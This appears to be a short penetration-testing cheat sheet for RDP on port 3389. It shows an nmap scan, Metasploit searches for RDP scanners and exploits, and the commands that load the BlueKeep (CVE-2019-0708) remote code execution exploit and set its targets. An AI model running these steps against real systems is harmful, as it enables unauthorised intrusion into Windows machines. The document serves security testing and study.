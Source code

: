 ```yaml
---
description: Remote Desktop Protocol (RDP)
---
```


# 3389 \~ RDP

```bash
$ sudo nmap -sS -n -v -p3389 

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
...

```

### Metasploit

#### Searching for scanners

`search type:auxiliary scanner/rdp`

```bash
msf6 > search type:auxiliary scanner/rdp

0  auxiliary/scanner/rdp/cve_2019_0708_bluekeep  2019-05-14       normal  Yes    CVE-2019-0708 BlueKeep Microsoft Remote Desktop RCE Check
...
3  auxiliary/scanner/rdp/rdp_scanner             .                normal  No     Identify endpoints speaking the Remote Desktop Protocol (RDP)
4  auxiliary/scanner/rdp/ms12_020_check          .                normal  Yes    MS12-020 Microsoft Remote Desktop Checker

```

#### Searching for exploits

`search type:exploit rdp`

```bash
msf6 > search type:exploit rdp

0  exploit/windows/rdp/cve_2019_0708_bluekeep_rce                      2019-05-14       manual  Yes    CVE-2019-0708 BlueKeep RDP Remote Windows Kernel Use After Free
..
```

Eg. Exploit: `windows/rdp/cve_2019_0708_bluekeep_rce`

```bash
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > use 0
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show options
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set lhost ...
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set rhosts ...
```
